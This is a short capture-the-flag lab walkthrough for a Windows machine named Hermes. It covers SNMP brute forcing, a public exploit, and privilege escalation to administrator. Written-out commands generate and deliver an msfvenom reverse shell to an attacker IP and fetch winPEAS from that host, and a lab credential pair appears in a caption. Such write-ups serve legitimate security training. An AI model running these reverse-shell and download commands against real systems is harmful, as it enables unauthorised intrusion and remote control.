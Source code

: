 # Hermes Standalone

I start off by scanning open ports:

<figure><img src="../../../../.gitbook/assets/image (204).png" alt=""><figcaption></figcaption></figure>

On port 161 we discover a SNMP port open and we manage to bruteforce the password:

<figure><img src="../../../../.gitbook/assets/image (205).png" alt=""><figcaption></figcaption></figure>

So after enumerating for a bit i found this program running with snmp:

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I look up exploits and find what i'm looking for:

<figure><img src="../../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

after looking what the payload does i generate a shell.exe file:

```
msfvenom -p windows/x64/shell_reverse_tcp LPORT=4444 LHOST=192.168.45.207 -f exe -o shell.exe
```

and run the exploit after hostinf a python server:

```
python 50972.py 192.168.243.145 192.168.45.207:80 shell.exe
```

<figure><img src="../../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Then i transfer powershell:

```
powershell
Invoke-WebRequest "http://192.168.45.207/winPEASany.exe" -OutFile "C:\Users\offsec\Desktop\winpeas.exe"
```

After running a linpeas i found some cleartext credentials:

<figure><img src="../../../../.gitbook/assets/image (6) (1) (1) (1) (1).png" alt=""><figcaption><p>zachary:Th3R@tC@tch3r</p></figcaption></figure>

I'm able to connect via RDP to the machine and while enumerating:

```
xfreerdp /v:192.168.243.145 /u:zachary /p:Th3R@tC@tch3r
```

<figure><img src="../../../../.gitbook/assets/image (7) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So i'm able to launch shell as administrator:

<figure><img src="../../../../.gitbook/assets/image (8) (1) (1).png" alt=""><figcaption></figcaption></figure>
